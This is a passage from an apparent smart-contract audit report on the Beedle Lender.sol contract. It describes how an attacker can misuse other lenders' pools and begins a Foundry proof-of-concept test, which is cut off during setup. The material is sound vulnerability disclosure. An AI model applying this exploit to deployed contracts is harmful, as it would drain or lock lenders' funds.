 As a result:

- The `WETH` amount will be subtracted from Alice's pool [poolBalance](https://github.com/Cyfrin/2023-07-beedle/blob/main/src/Lender.sol#L489-L490) without her consent.
- Mallory is unable to [repay](https://github.com/Cyfrin/2023-07-beedle/blob/main/src/Lender.sol#L292-L345) or [refinance](https://github.com/Cyfrin/2023-07-beedle/blob/main/src/Lender.sol#L591-L710) the loan. Alice is also unable to [startAuction](https://github.com/Cyfrin/2023-07-beedle/blob/main/src/Lender.sol#L437-L459) because his [address != pool.lender](https://github.com/Cyfrin/2023-07-beedle/blob/main/src/Lender.sol#L443), [giveLoan](https://github.com/Cyfrin/2023-07-beedle/blob/main/src/Lender.sol#L355-L432) because his [address != pool.lender](https://github.com/Cyfrin/2023-07-beedle/blob/main/src/Lender.sol#L365), or [seizeLoan](https://github.com/Cyfrin/2023-07-beedle/blob/main/src/Lender.sol#L548-L586) because the [attacker is not started auction](https://github.com/Cyfrin/2023-07-beedle/blob/main/src/Lender.sol#L554-L555).
- Bob will not be harmed as he will be able to withdraw his loan amount along with the interest from his pool

**Eve can exploit this vulnerability to set up foreign pools that meet certain requirements: [poolBalance ≥ totalDebt](https://github.com/Cyfrin/2023-07-beedle/blob/main/src/Lender.sol#L486) and [interestRate ≤ currentAuctionRate](https://github.com/Cyfrin/2023-07-beedle/blob/main/src/Lender.sol#L478-L478).**

### POC:

_Add this test in the `Lender.t.sol`_

```solidity
    function test_attackerCanSetArbitraryPool() external {
        uint256 thousand = 1000e18;
        address attacker = address(0x999);

        emit log_named_uint("attacker loanToken balance", loanToken.balanceOf(attacker));
        emit log_named_uint("attacker collateralToken balance", collateralToken.balanceOf(attacker));

        // lender 1 set pool
        vm.prank(lender1);
        bytes32 poolId0 = lender.setPool(Pool({
            lender: lender1,
            loanToken: address(loanToken),
            collateralToken: address(collateralToken),
            minLoanSize: 100e18,
            poolBalance: thousand,
            maxLoanRatio: 1e18,
            auctionLength: 1 days,
            interestRate: 1000,
            outstandingLoans: 0
        }));

        // lender 2 set pool
        vm.prank(lender2);
        bytes32 poolId1 = lender.setPool(Pool({
            lender: lender2,
            loanToken: address(loanToken),
            collateralToken: address(collateralToken),
            minLoanSize: thousand,
            poolBalance: thousand * 2,
            maxLoanRatio: 1e18,
            auctionLength: 1 days,
            interestRate: 500,
            outstandingLoans: 0
        }));

        // borrower get loan from pool 0
        Borrow[] memory borrows = new Borrow[](1);
        borrows[0] = Borrow({
```